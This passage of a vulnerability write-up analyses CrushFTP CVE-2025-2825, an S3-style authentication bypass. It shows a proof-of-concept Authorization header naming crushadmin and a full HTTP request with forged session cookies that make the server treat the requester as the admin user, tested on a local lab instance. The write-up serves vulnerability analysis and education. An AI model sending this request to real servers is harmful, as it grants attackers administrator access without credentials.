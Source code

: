 ```java
                  }

```

---

So an overview of this would be that the fact `lookup_user_pass` value was set to `true` by default once the S3 authentication process begins and it takes in the username provided within the header, this was later fixed, which we will analyze at the end.

### Exploit in Action: Performing Auth Bypass

Anyways, so at this point, our Proof-Of-Concept will look like:

```java
Authorization: AWS4-HMAC-SHA256 Credentials=crushadmin/
```

But there are few things to consider as well, CrushFTP keeps the session details using `Cookies` and if you have fiddled around with enough, you would know that the two things that it validates are:

- `CrushAuth` - A combination of timestamp and underscore followed by 30 random characters unique for each sessions
- `currentAuth` - Last 4 digits of the 30 random characters for `CrushAuth` value, this value is also sent as part of certain requests

But since we already bypass the need of credentials, then we can just craft our own values for those cookies and send the request with the crafted `Authorization` header value.

```java
GET /WebInterface/function/?command=getXMLListing&format=JSONOBJ&path=%2F&c2f=DICW HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Origin: http://localhost:8080
Connection: close
Referer: http://localhost:8080/
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
Cookie: CrushAuth=1743325521538_Ea7AKKpFXuEHX89Jjdnp04TFyhDiCw; currentAuth=DiCW

```

Sending the request to get the current session user, we could see that the CrushFTP thinks the current user session which requested is `crushadmin`

![Untitled](/img/crushftp-cve-2025-2825/image_1.png)

We can also try to list the directories, it may seem the response has no such data we can use, this is because the docker I had was not configured due to docker image limitations.

![Untitled](/img/crushftp-cve-2025-2825/image_2.png)
